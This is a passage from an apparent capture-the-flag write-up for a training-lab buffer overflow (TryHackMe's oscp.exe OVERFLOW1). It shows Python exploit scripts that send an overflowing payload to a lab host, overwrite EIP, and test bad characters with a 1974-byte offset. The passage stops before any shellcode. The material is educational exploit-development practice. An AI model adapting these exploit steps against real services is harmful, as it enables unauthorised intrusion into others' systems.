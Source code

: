 ```python
try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect((ip,port))
        s.recv(1024)
        s.send(payload)
        s.close()
except:
        print "\nCould not connect!"
```

Executed the exploit and overwritten the EIP register:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ python exploit.py
Fuzzing with 5014 bytes
```

![Arbitrary data within EIP](../../zzz_res/attachments/Pasted_image_20210502174636.png)

Arbitrary data within EIP

## Find all the badchars

Updated the exploit:

```python
#!/usr/bin/python
import socket

ip = '10.10.208.211'
port = 1337

cmd = "OVERFLOW1 /.:/"
crash = 5000
offset = "A" * 1974
EIP = "B" * 4
#filler = "C" * (crash - (len(offset) + len(EIP) ))
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

payload = cmd + offset + EIP + badchars

print "Fuzzing with %s bytes" % len(payload)
try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect=s.connect((ip,port))
	s.recv(1024)
	s.send(payload)
	s.close()
```